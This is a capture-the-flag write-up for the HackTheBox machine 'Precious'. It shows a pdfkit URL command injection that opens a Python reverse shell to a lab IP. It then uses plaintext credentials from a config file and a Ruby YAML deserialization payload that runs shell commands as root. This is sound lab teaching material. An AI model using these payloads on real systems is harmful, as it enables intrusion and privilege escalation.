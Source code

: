 ```yaml
---
title: "Precious - HackTheBox"
description: "https://www.hackthebox.com/machines/precious"
summary: "Hack The Box Machine Precious"
date: 2023-09-28
draft: false
tags: ["Linux", "HackTheBox", "Easy", "CTF"]
---
```


------------------------

### About Precious
- Precious is an Easy Difficulty Linux machine, that focuses on the `Ruby` language.
- It hosts a custom `Ruby` web application, using an outdated library, namely pdfkit, which is vulnerable to `CVE-2022-25765`, leading to an initial shell on the target machine.
- After a pivot using plaintext credentials that are found in a Gem repository `config` file, the box concludes with an insecure deserialization attack on a custom, outdated, `Ruby` script.


### Scanning

Port scaning with nmap
- port 80 is open : redirect to http://precious.htb/

add this to `/etc/hosts`.

### Foothold

On this page we have **Convert Web Page to PDF** functionality.

<img width="474" alt="image" src="https://user-images.githubusercontent.com/79740895/231573264-a9246425-3e38-4e9d-8b5a-431684ceff6f.png">

after giving url pdf file is downloaded.

using exiftool on pdf we know that it is _Generated by pdfkit v0.8.6_.

This version is vulnerable to RCE.

Payload:
```url
http://%20`{command}`
```

we can use this payload to get reverse shell:

```shell
http://%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.40",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`
```

references: https://www.revshells.com/

we get shell as user ruby

<img width="216" alt="image" src="https://user-images.githubusercontent.com/79740895/231575127-06729034-9ced-4058-bc70-6b335f7044f9.png">

### Escalating Privileges

we can see two user in /home directory.

<img width="83" alt="image" src="https://user-images.githubusercontent.com/79740895/231575282-f6f90c02-7aa8-4d87-ba56-d603b07b02eb.png">

user flag is in directory of user henry but it is not accessible.

inside the directory of user ruby there is config file in .bundle in this file we can see password of user henry.

<img width="252" alt="image" src="https://user-images.githubusercontent.com/79740895/231575704-cd2668c0-8a7e-4542-91bb-669cb7bdaed1.png">

we can use this for ssh to henry.

user can run /opt/update_dependencies.rb as root with sudo.

<img width="344" alt="image" src="https://user-images.githubusercontent.com/79740895/231576872-90fbe14a-5858-4480-83a5-901366213b58.png">

this file is not writable. looking at code we see it use YAML.load, which is vulnerable to deserialization attack.

<img width="213" alt="image" src="https://user-images.githubusercontent.com/79740895/231577426-1faf86eb-003b-4c17-be99-0ca2b7c79a60.png">

we can write in dependencies.yml.

payload:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cat /root/root.txt
         method_id: :resolve
```

reference: https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml

now we can run this with sudo and get the root flag.

`sudo /usr/bin/ruby /opt/update_dependencies.rb`


This will give the root flag.

Happy Hacking

---
